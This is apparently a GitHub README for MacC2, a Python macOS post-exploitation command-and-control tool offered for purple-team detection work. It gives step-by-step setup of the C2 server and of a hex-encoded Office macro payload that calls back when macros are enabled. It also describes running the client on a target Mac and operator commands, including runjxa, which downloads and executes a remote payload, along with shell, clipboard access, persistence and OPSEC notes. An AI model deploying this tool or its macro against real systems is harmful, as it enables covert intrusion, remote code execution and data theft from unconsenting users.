



# MacC2
MacC2 is a macOS post exploitation tool written in python that uses Objective C calls or python libraries as opposed to command line executions. **I wrote this tool to aid purple team exercises aimed at building detections for python-based post exploitation frameworks on macOS**. Apple plans to eventually remove scripting runtimes from base macOS installs, but it appears that python is still included by default on base installs of Big Sur. 

You can set up the server locally or you can use the docker setup I have included in this repo. Instructions below:

-----
## Instructions for Running Using Docker: ##

***If you do not already have docker set up:***
1. `chmod +x install_docker_linux.sh`
2. `sudo ./install_docker_linux.sh`

***Next:***
1. `chmod +x setup.sh`
2. `sudo ./setup.sh` **(this will create an untrusted ssl cert and key, generate a macro file for the server and port you specify (will drop the macro in macro.txt locally), build macc2-docker, and run the MacC2 server inside of macc2-container in interactive mode)**
3. when prompted, enter the IP/hostname of the MacC2 server

4. when prompted, enter the port that the MacC2 server will listen on

5. A hex encoded macro payload will be dropped locally in a file named macro.txt that is configured to connect to your MacC2 server on the hostname/IP and port you specified.

6. Docker will install the aiohttp python3 dependency, build macc2-docker, and will run the MacC2 Server in a container named macc2-container. Once finished the MacC2 server will listen on the specified port:

7. You can run *docker ps* and validate that the MacC2 server is running (you will see a container named macc2-container listed there)

You can then either copy the MacC2_client.py file over to the client and execute for a callback or you can import the macro.txt macro into an Office document and "Enable Macros" when opening for a callback on the client. 

------
## Running Locally (Without Using Docker) ##
If you opt to not use docker, you can set up the server locally using the steps below:

Since the MacC2 server uses the aiohttp library for communications, you will need to install aiohttp first:

`pip install aiohttp` **(if you encounter an error ensure that pip is pointing to python3, since aiohttp is a python3 library)**: 

`python3 -m pip install --upgrade --force pip`

**_On C2 Server:_**
1. Set up ssl (note: use a key size of at least 2048)

If you do not have your own cert, you can use the following to generate a self signed cert:

- 1: `openssl req -new -newkey rsa:2048 -nodes -out ca.csr -keyout ca.key`

- 2: `openssl x509 -trustout -signkey ca.key -days 365 -req -in ca.csr -out ca.pem`

**note: the server script is hard-coded to use ca.pem and ca.key, so keep these names the same for now, or change the code appropriately**

2. Use macro_generator.py to create the MacC2 scripts with the server's IP/domain and port. macro_generator.py also builds a macro (macro.txt) that uses hex encoding to run MacC2. You can copy and paste the contents of macro.text into an MS Office document:

Usage: 

`python3 macro_generatory.py -s [C2 Server IP/domain] -p [C2 Server Port]`

-Example:

3. Start the generated MacC2_server.py script to listen for a connection:

**_On Client Side (the target mac host):_**
1. If you desire to not be limited by the mac sandbox and want more functionality, you may opt to copy the MacC2_client.py script to the client (assuming you have access).

2. On the client, run the MacC2_client.py script: 
`python MacC2_client.py`

3. On the server, you will see an inbound connection. Example below:

----------

## Using MacC2 ##

After you receive a connection, you can use the "help" command on the server to get a list of built-in commands available. You can enter one of these commands. After entering a command and pressing Enter, the command is queued up (allows you to enter multiple commands to be executed by the client). Once you type "done" and hit Enter, all of the queued commands will be sent to the client for execution.

Each command is pretty straightforward. The command options that are not OPSEC safe (i.e., command line executions or cause pop ups) are also flagged in red from the help menu.

Functions of Note:

- You can generate a Mythic C2 JXA .js payload, download it, and host it on a remote server. Then you can provide the url to the hosted file to MacC2 using the **runjxa** command to have MacC2 download and execute the Mythic .JXA payload:

`>>> runjxa <url_to_JXA_.js_payload>`

**Note: If you gain access using the MS Office macro, then the persistence method will not work due to sandboxing. The files will still be dropped and the login item will still be inserted but upon reboot the quarantine attribute prevents the persistence from executing**

----------

## Additional Info ##

The MacC2 server uses aiohttp to easily allow for asynchronous web comms. To ensure that only MacC2 agents can access the server, the server includes the following:

- A specific user agent string check (if a request fails this check it receives a 404 Not Found)

- A specific token (if a request failes this check it receives a 404 Not Found)

The operator flow after setting everything up and getting a callback is:

- view help menu for command options

- enter command name and press enter for each command you want to run

- enter "done" and press enter to have the queued commands sent to the client for execution

- **NOTE: The default sleep is 10 seconds. The operator can change that by using the sleep [numberofseconds] command.**

- NOTE: The MacC2 server currently does not have a way to conveniently switch between sessions when multiple clients connect. Instead the server auto switches between sessions after each command executed. So the operator will need to pay attention to the IP in the connection to know which session is being interacted with.

----------

## Macro Limitations ##

MacC2 does NOT include any sandbox escapes and therefore all functions do not work when access is gained via the Office macro. Functions that DO work from the sandbox include:

- runjxa 

- systeminfo

- addresses

- prompt

- clipboard

- shell (not OPSEC safe)

- spawn (not OPSEC safe)

- cd and listdir (sandbox prevents access for most directories but you can see the root '/' directory and potentially others as well)

----------

**_DISCLAIMER_**

This is for academic purposes and should not be used maliciously or without the appropriate authorizations and approvals.
